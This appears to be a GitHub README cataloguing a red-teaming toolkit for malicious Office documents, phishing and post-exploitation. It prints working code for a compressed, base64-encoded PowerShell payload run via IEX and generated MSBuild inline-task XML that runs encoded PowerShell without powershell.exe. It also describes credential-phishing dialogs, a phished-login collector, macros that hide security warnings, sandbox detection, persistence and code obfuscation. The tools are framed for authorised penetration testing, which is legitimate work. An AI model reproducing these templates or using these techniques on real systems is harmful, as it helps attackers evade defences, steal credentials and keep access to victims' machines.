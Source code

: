 ## Red Teaming and Social-Engineering related scripts, tools and CheatSheets



- **`backdoor-drop.js`** - Internet Explorer - JavaScript trojan/backdoor dropper template, to be used during Penetration Testing assessments. ([gist](https://gist.github.com/mgeeky/b0aed7c1e510560db50f96604b150dac))

- **`compressedPowershell.py`** - Creates a Powershell snippet containing GZIP-Compressed payload that will get decompressed and executed (IEX)
. ([gist](https://gist.github.com/mgeeky/e30ceecc2082a11b99c7b24b42bd77fc))

    Example:

```
$s = New-Object IO.MemoryStream(, [Convert]::FromBase64String('H4sIAMkfcloC/3u/e390cGVxSWquXlBqWk5qcklmfp6eY3Fxam5STmWslZVPfmJKeGZJRkBiUUlmYo5fYm6qhhJUR3hmXkp+ebGeW35RbrGSpkKNgn9pia5faU6ONS9XNDZFer6pxcWJ6alO+RVAs4Mz8ss11D1LFMrzi7KLFdU1rQFOfXYfjwAAAA=='));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s, [IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

- **`delete-warning-div-macro.vbs`** - VBA Macro function to be used as a Social Engineering trick removing "Enable Content" warning message as the topmost floating text box with given name. ([gist](https://gist.github.com/mgeeky/9cb6acdec31c8a70cc037c84c77a359c))

- **`generateMSBuildPowershellXML.py`** - Powershell via MSBuild inline-task XML payload generation script - To be used during Red-Team assignments to launch Powershell payloads without using `powershell.exe` ([gist](https://gist.github.com/mgeeky/df9f313cfe468e56c59268b958319bcb))

    Example output **not minimized**:
    
```
C:\Users\IEUser\Desktop\files\video>python generateMSBuildPowershellXML.py     Show-Msgbox.ps1

        :: Powershell via MSBuild inline-task XML payload generation script
        To be used during Red-Team assignments to launch Powershell payloads without     using 'powershell.exe'
        Mariusz B. / mgeeky, <mb@binary-offensive.com>

[?] File not recognized as PE/EXE.

------------------------------------------------------------------------------------
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003">

  <!--  Based on Casey Smith work, Twitter: @subTee                              -->
  <!--  Automatically generated using `generateMSBuildPowershellXML.py` utility  -->
  <!--  by Mariusz B. / mgeeky <mb@binary-offensive.com>                         -->

  <Target Name="btLDoraXcZV">
    <hwiJYmWvD />
  </Target>
  <UsingTask TaskName="hwiJYmWvD" TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v    4.0.dll" >
    <Task>
    <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class hwiJYmWvD : Task {
                public override bool Execute() {

                    byte[] payload = System.Convert.FromBase64String("JHMgPSBOZXctT2JqZ    WN0IElPLk1lbW9yeVN0cmVhbSgsIFtDb252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygn    SDRzSUFJOUxjbG9DLzN1L2UzOTBjR1Z4U1dxdVhsQnFXazVxY2tsbWZwNmVZM0Z4YW0    1U1RtV3NsWlZQZm1KS2VHWkpSa0JpVVVsbVlvNWZZbTZxaGhKVVIzaG1Ya3ArZWJHZV    czNVJickdTcGtLTmduOXBpYTVmYVU2T05TOVhORFpGZXI2cHhjV0o2YWxPK1JWQXM0T    Xo4c3MxMUQxTEZNcnppN0tMRmRVMXJRRk9mWFlmandBQUFBPT0nKSk7IElFWCAoTmV3    LU9iamVjdCBJTy5TdHJlYW1SZWFkZXIoTmV3LU9iamVjdCBJTy5Db21wcmVzc2lvbi5    HemlwU3RyZWFtKCRzLCBbSU8uQ29tcHJlc3Npb24uQ29tcHJlc3Npb25Nb    2RlXTo6RGVjb21wcmVzcykpKS5SZWFkVG9FbmQoKTs=");
                    string decoded = System.Text.Encoding.UTF8.GetString(payload);

                    Runspace runspace = RunspaceFactory.CreateRunspace();
                    runspace.Open();

                    Pipeline pipeline = runspace.CreatePipeline();
                    pipeline.Commands.AddScript(decoded);
                    pipeline.Invoke();

                    runspace.Close();
                    return true;
                }
            }
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
------------------------------------------------------------------------------------
```
    
**minimized**
    
```
C:\Users\IEUser\Desktop\files\video>python generateMSBuildPowershellXML.py     Show-Msgbox.ps1 -m                     
                                                                                                                  
        :: Powershell via MSBuild inline-task XML payload generation     script                                       
        To be used during Red-Team assignments to launch Powershell payloads without     using 'powershell.exe'       
        Mariusz B. / mgeeky, <mb@binary-offensive.com>                                                                
                                                                                                                  
[?] File not recognized as PE/EXE.                                                                                    
                                                                                                                  
------------------------------------------------------------------------------------                                  
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003"><Target     Name="mYOYInAFWE"><DpaYaokgauWBJbe />
</Target><UsingTask TaskName="DpaYaokgauWBJbe" TaskFactory="CodeTaskFactory"     AssemblyFile="C:\Windows\Microsoft.Ne
t\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll"><Task><Reference     Include="System.Management.Automation" /><
Code Type="Class" Language="cs"><![CDATA[using System.Management.Automation;using     System.Management.Automation.Run
spaces;using Microsoft.Build.Framework;using Microsoft.Build.Utilities;public class     DpaYaokgauWBJbe:Task{public ov
erride bool Execute(){byte[]    x=System.Convert.FromBase64String("JHMgPSBOZXctT2JqZWN0IElPLk1lbW9yeVN0cmVhbSgsIFtDb25
2ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygnSDRzSUFMQkxjbG9DLzN1L2UzOTBjR1Z4U1dxdVhsQnFXazVxY2tsbW    ZwNmVZM0Z4YW01U1RtV3NsWlZQZ
m1KS2VHWkpSa0JpVVVsbVlvNWZZbTZxaGhKVVIzaG1Ya3ArZWJHZVczNVJickdTcGtLTmduOXBpYTVmYVU2T05T    OVhORFpGZXI2cHhjV0o2YWxPK1J
WQXM0TXo4c3MxMUQxTEZNcnppN0tMRmRVMXJRRk9mWFlmandBQUFBPT0nKSk7IElFWCAoTmV3LU9iamVjdCBJTy    5TdHJlYW1SZWFkZXIoTmV3LU9ia
mVjdCBJTy5Db21wcmVzc2lvbi5HemlwU3RyZWFtKCRzLCBbSU8uQ29tcHJlc3Npb24uQ29tcHJlc3Npb25Nb2Rl    XTo6RGVjb21wcmVzcykpKS5SZWF
kVG9FbmQoKTs=");string d=System.Text.Encoding.UTF8.GetString(x);Runspace     r=RunspaceFactory.CreateRunspace();r.Open
();Pipeline p=r.CreatePipeline();p.Commands.AddScript(d);p.Invoke();r.Close();return     true;}}]]></Code></Task></Usi
ngTask></Project>                                                                                                     
------------------------------------------------------------------------------------                              
```

- **`Invoke-Command-Cred-Example.ps1`** - Example of using PSRemoting with credentials passed directly from command line. ([gist](https://gist.github.com/mgeeky/de4ecf952ddce774d241b85cfbf97faf))

- **`MacroDetectSandbox.vbs`** - Visual Basic script responsible for detecting Sandbox environments, as presented in modern Trojan Droppers implemented in Macros. ([gist](https://gist.github.com/mgeeky/61e4dfe305ab719e9874ca442779a91d))

- **`Macro-Less-Cheatsheet.md`** - Macro-Less Code Execution in MS Office via DDE (Dynamic Data Exchange) techniques Cheat-Sheet ([gist](https://gist.github.com/mgeeky/981213b4c73093706fc2446deaa5f0c5))

- **`macro-psh-stdin-author.vbs`** - VBS Social Engineering Macro with Powershell invocation taking arguments from Author property and feeding them to StdIn. ([gist](https://gist.github.com/mgeeky/50c4b7fa22d930a80247fea62755fbd3))

- **`msbuild-powershell-msgbox.xml`** - Example of Powershell execution via MSBuild inline task XML file. On a simple Message-Box script.
 ([gist](https://gist.github.com/mgeeky/617c54a23f0c4e99e6f475e6af070810))

- **`muti-stage-1.md`** - Multi-Stage Penetration-Testing / Red Teaming Malicious Word document creation process. ([gist](https://gist.github.com/mgeeky/6097ea56e0f541aa7d98161e2aa76dfb))

- **`Phish-Creds.ps1`** - Powershell oneline Credentials Phisher - to be used in malicious Word Macros/VBA/HTA or other RCE commands on seized machine. ([gist](https://gist.github.com/mgeeky/a404d7f23c85954650d686bb3f02abaf))

    One can additionally add, right after `Get-Credential` following parameters that could improve pretext's quality during social engineering attempt:
    - `-Credential domain\username` - when we know our victim's domain and/or username - we can supply this info to the dialog
    - `-Message "Some luring sentence"` - to include some luring message

- [**`PhishingPost`**](https://github.com/mgeeky/PhishingPost) - (PHP Script intdended to be used during Phishing campaigns as a credentials collector linked to backdoored HTML <form> action parameter.

- [**`RobustPentestMacro`**](https://github.com/mgeeky/RobustPentestMacro) - This is a rich-featured Visual Basic macro code for use during Penetration Testing assignments, implementing various advanced post-exploitation techniques.

- **`set-handler.rc`** - Quickly set metasploit's multi-handler + web_delivery (separated) handler for use with powershell. ([gist](https://gist.github.com/mgeeky/bf4d732aa6e602ca9b77d089fd3ea7c9))

- **`SubstitutePageMacro.vbs`** - This is a template for the Malicious Macros that would like to substitute primary contents of the document (like luring/fake warnings to "Enable Content") and replace document's contents with what is inside of an AutoText named `RealDoc` (configured via variable `autoTextTemplateName` ). ([gist](https://gist.github.com/mgeeky/3c705560c5041ab20c62f41e917616e6))

- **`warnings\EN-Word.docx`** and **`warnings\EN-Excel.docx`**  - Set of ready-to-use Microsoft Office Word shapes that can be pasted / inserted into malicious documents for enticing user into clicking "Enable Editing" and "Enable Content" buttons.

- **`WMIPersistence.vbs`** - Visual Basic Script implementing WMI Persistence method (as implemented in SEADADDY malware and further documented by Matt Graeber) to make the Macro code schedule malware startup after roughly 3 minutes since system gets up. ([gist](https://gist.github.com/mgeeky/d00ba855d2af73fd8d7446df0f64c25a))

- **`Various-Macro-Based-RCEs.md`** - Various Visual Basic Macros-based Remote Code Execution techniques to get your meterpreter invoked on the infected machine. ([gist](https://gist.github.com/mgeeky/61e4dfe305ab719e9874ca442779a91d))

- **`vba-macro-mac-persistence.vbs`** - (WIP) Working on VBA-based MacPersistance functionality for MS Office for Mac Macros. ([gist](https://gist.github.com/mgeeky/dd184e7f50dfab5ac97b4855f23952bc))

- **`vba-windows-persistence.vbs`** - VBA Script implementing two windows persistence methods - via WMI EventFilter object and via simple Registry Run. ([gist](https://gist.github.com/mgeeky/07ffbd9dbb64c80afe05fb45a0f66f81))

- [**`VisualBasicObfuscator`**](https://github.com/mgeeky/VisualBasicObfuscator) - Visual Basic Code universal Obfuscator intended to be used during penetration testing assignments.
